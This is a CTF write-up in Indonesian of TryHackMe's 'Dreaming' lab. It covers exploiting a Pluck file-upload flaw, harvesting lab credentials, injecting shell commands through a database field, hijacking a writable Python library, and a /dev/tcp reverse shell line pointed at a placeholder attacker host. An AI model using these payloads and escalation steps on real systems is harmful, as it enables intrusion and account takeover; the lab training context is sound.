# Dreaming — TryHackMe Writeup

**Target:** Dreaming  
**Platform:** TryHackMe  
**Difficulty:** Easy  
**Kategori:** Web Exploitation, Command Injection, Python Library Hijacking, Privilege Escalation

---

## Recon

Seperti biasa, dimulai dengan mencari port terbuka menggunakan RustScan. Hasilnya kemudian diteruskan ke Nmap untuk melakukan enumerasi service.

```bash
rustscan -b 2000 --script none -a TARGET_IP
```

```bash
nmap -sC -sV -p22,80 -T4 TARGET_IP
```



Web berjalan di port 80. Saat dicek, halaman yang tampil masih merupakan default page Apache2 Ubuntu.



---

## Web Enumeration

Di sini saya mencoba melakukan directory fuzzing menggunakan FFUF untuk mencari dan mapping directory yang tersedia.

```bash
ffuf -w ~/wordlists/SecLists/Discovery/Web-Content/raft-small-words.txt \
-recursion -recursion-depth 3 \
-u http://TARGET_IP/FUZZ \
-o ffuf.json \
-of json \
-fc 403
```



Endpoint `/app` menunjuk ke index file dan terdapat folder Pluck `4.7.13`.

Jika diklik, URL mengarah ke:

```text
http://TARGET_IP/app/pluck-4.7.13/?file=dreaming
```

Setelah melihat source code, terdapat:

```html
<a href="/app/pluck-4.7.13/login.php">admin</a>
```

Di sini saya memiliki beberapa hipotesis:

- Mencoba LFI
- Mencari CVE Pluck `4.7.13`
- Mencoba brute force
- SQL Injection
- Mencari vulnerability lain pada form login

Karena form login hanya membutuhkan password, saya mencoba password:

```text
password
```

Ternyata berhasil login dan URL berubah menjadi:

```text
http://TARGET_IP/app/pluck-4.7.13/admin.php?action=start
```



---

## Initial Foothold — Pluck RCE

Setelah mencoba mencari CVE untuk versi Pluck tersebut, ditemukan:

- **CVE-2020-29607**, yang kurang lebih merupakan authenticated file upload bypass yang berujung pada arbitrary command execution.
- Sistem hanya memblokir extension seperti `.php` dan `.phtml`.
- Bypass dapat dilakukan menggunakan extension `.phar`.

Dengan informasi yang sudah dikumpulkan, saya mencoba membuat `shell.phar` untuk mendapatkan RCE dan menguploadnya ke dashboard admin Pluck.

Di sini saya menggunakan payload dari PentestMonkey.



Setelah mendapatkan shell, saya mulai melakukan enumerasi untuk mendapatkan hak yang lebih tinggi.

---

## User Enumeration

Saya menemukan tiga user yang menarik di `/home`:

```text
drwxr-xr-x  6 root     root     4096 May 18  2025 .
drwxr-xr-x 20 root     root     4096 Aug 10 11:05 ..
drwxr-xr-x  4 death    death    4096 Aug 25  2023 death
drwxr-xr-x  5 lucien   lucien   4096 Aug 25  2023 lucien
drwxr-xr-x  3 morpheus morpheus 4096 Aug  7  2023 morpheus
drwxr-xr-x  4 ubuntu   ubuntu   4096 May 18  2025 ubuntu
```

User yang terlihat menarik adalah:

```text
death
lucien
morpheus
```

---

## Getting Lucien

Saya menemukan password untuk Lucien di `/opt/test.py`.

Isi file tersebut:

```python
# Todo add myself as a user
url = "http://127.0.0.1/app/pluck-4.7.13/login.php"
password = "HeyLucien#@1999!"

data = {
        "cont1":password,
        "bogus":"",
        "submit":"Log+in"
        }

req = requests.post(url,data=data)

if "Password correct." in req.text:
    print("Everything is in proper order. Status Code: " + str(req.status_code))
else:
    print("Something is wrong. Status Code: " + str(req.status_code))
    print("Results:
" + req.text)
```

Credential yang ditemukan:

```text
Username: lucien
Password: HeyLucien#@1999!
```

Setelah berhasil login sebagai Lucien, saya langsung mencoba `sudo -l`.

```bash
sudo -l
```

Hasilnya:

```text
(death) NOPASSWD: /usr/bin/python3 /home/death/getDreams.py
```

Lucien dapat menjalankan file tersebut sebagai user Death.

Karena itu saya mencoba menjalankannya:

```bash
sudo -u death /usr/bin/python3 /home/death/getDreams.py
```

Hasilnya:

```text
Alice + Flying in the sky

Bob + Exploring ancient ruins

Carol + Becoming a successful entrepreneur

Dave + Becoming a professional musician
```

Di sini masih belum diketahui apa maksud dari script tersebut.

---

## MySQL Enumeration

Saya mencoba mencari jalan lain dan menemukan `.mysql_history` di `/home/lucien`.

Kemungkinan user Lucien pernah menjalankan MySQL. Saya mencoba mengakses file tersebut, tetapi ternyata mendapatkan `Permission denied`.

Kemudian saya menemukan `.bash_history` di `/home/lucien`.

Setelah dibuka, isinya terdapat:

```text
mysql -u lucien -plucien42DBPASSWORD
```

Saya mencoba menggunakan credential tersebut dan berhasil login. Ternyata sebelumnya saya hanya menggunakan password yang salah.



Setelah berhasil login, saya menemukan output yang berhubungan dengan `/home/death/getDreams.py`.



Kemungkinan secara kasar script tersebut langsung mengambil data dari table `dreams`.

Untuk membuktikannya lebih lanjut, saya mencoba memasukkan data baru ke table tersebut dan menjalankan ulang script.



Bisa dilihat bahwa data yang baru saja saya masukkan berhasil diprint oleh script.

Dengan demikian sudah dipastikan bahwa `/home/death/getDreams.py` mengambil data dari database, khususnya table `dreams`, untuk menghasilkan output.

Yang masih belum diketahui adalah apakah script tersebut hanya menjalankan `print()` atau benar-benar memproses data tersebut.

Jika script ternyata memproses data tersebut sebagai command, kita bisa menggunakannya untuk mendapatkan shell sebagai Death dan melakukan eskalasi lebih lanjut.

Di sini saya mendapatkan copy dari `getDreams.py` di folder `/opt`, folder yang sama saat menemukan credential Lucien. Saat itu saya hanya membaca sekilas dan belum terlalu fokus pada copy tersebut.

---

## Command Injection — Getting Death

Bagian penting dari `getDreams.py` adalah:

```python
for dream_info in dreams_info:
                dreamer, dream = dream_info
                command = f"echo {dreamer} + {dream}"
                shell = subprocess.check_output(command, text=True, shell=True)
                print(shell)
```

Input dari database diproses sebagai shell command.

Jika kita memasukkan data baru ke database, misalnya:

```text
dreamer : Lutz
dream   : ganteng
```

command yang diproses di backend kurang lebih menjadi:

```bash
echo Lutz + ganteng
```

Dari sini yang perlu dilakukan adalah meng-escape command `echo` tersebut dengan command separator:

```text
dreamer : Lutz
dream   : ganteng;id
```

Sehingga command yang diproses menjadi:

```bash
echo Lutz + ganteng;id
```

Yang diharapkan adalah output dari command `id`.



Dan ternyata command `id` berhasil dieksekusi dengan output:

```text
uid=1001(death) gid=1001(death) groups=1001(death)
```

Dengan demikian command injection berhasil dan saya bisa mencoba mendapatkan shell sebagai Death.

---

## Getting a Death Shell

Payload yang saya masukkan ke database:

```sql
INSERT INTO dreams (dreamer,dream)
VALUES ('test', 'test;/bin/bash');
```

Setelah payload dimasukkan ke database dan script dijalankan kembali, saya berhasil mendapatkan shell sebagai Death.

Namun shell tersebut bersifat non-interaktif.

Karena itu saya mencoba menggunakan shell Death yang non-interaktif tersebut untuk mendapatkan reverse shell.

Saat berada di shell Death, saya memasukkan payload:

```bash
bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1
```



Setelah berhasil mendapatkan shell interaktif sebagai Death, saya melanjutkan enumerasi.

---

## Death Enumeration

Saat melakukan enumerasi lebih lanjut, saya menemukan MySQL credential Death di `/home/death/getDreams.py`.

```python
DB_USER = "death"
DB_PASS = "!mementoMORI666!"
DB_NAME = "library"
```

Di sini saya menggunakan password tersebut untuk login secara sah sebagai Death, sehingga saya tidak perlu lagi menggunakan reverse shell.

Setelah berhasil login sebagai Death, saya kembali mencoba:

```bash
sudo -l
```

Ternyata user Death tidak memiliki sudo permission.

Karena itu saya menjalankan LinPEAS untuk mencari kemungkinan privilege escalation lainnya.



Hasil LinPEAS menunjukkan sesuatu yang menarik:

```text
-rw-rw-r-- 1 root death 51474 Mar 18  2025 /usr/lib/python3.8/shutil.py
```

Death memiliki write permission terhadap library tersebut.

Selain itu, terdapat script `restore.py` di `/home/morpheus` yang memanggil library tersebut.

---

## Death → Morpheus — Python Library Hijacking

Isi `restore.py`:

```python
from shutil import copy2 as backup

src_file = "/home/morpheus/kingdom"
dst_file = "/kingdom_backup/kingdom"

backup(src_file, dst_file)
print("The kingdom backup has been done!")
```

Karena `restore.py` melakukan:

```python
from shutil import copy2 as backup
```

dan Death dapat menulis ke:

```text
/usr/lib/python3.8/shutil.py
```

maka ada kemungkinan untuk melakukan Python Library Hijacking.

Yang perlu dicari tahu sekarang adalah apakah `restore.py` dijalankan secara otomatis, misalnya melalui cron atau systemd.

Saya melakukan beberapa pengecekan terhadap sistem yang mungkin memanggil `restore.py`, tetapi tidak menemukan mekanisme yang jelas.

Karena itu saya mencoba menggunakan **pspy** untuk melakukan monitoring secara langsung.



Setelah menggunakan pspy, akhirnya dikonfirmasi bahwa `restore.py` dijalankan setiap 1 menit.

Dengan trigger tersebut sudah diketahui, saya mencoba memodifikasi library `shutil.py`.

